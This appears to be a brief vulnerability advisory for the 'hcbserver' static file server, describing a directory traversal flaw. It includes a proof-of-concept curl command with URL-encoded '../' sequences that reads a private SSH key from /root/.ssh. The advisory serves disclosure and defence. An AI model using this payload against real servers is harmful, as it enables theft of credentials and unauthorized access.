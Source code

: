 # Overview

`hcbserver` is a static file server.

This package is vulnerable to a directory traversal issue. By placing "../" in the UR, a malicious actor can use this vulnerability to access files outside of the intended directory root, which may result in the disclosure of private files on the vulnerable system.


# Proof of Concept

```
curl http://localhost:8080/public/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/root/.ssh/id_rsa
```
Note: `%2e` is the URL encoded version of `.` (dot).
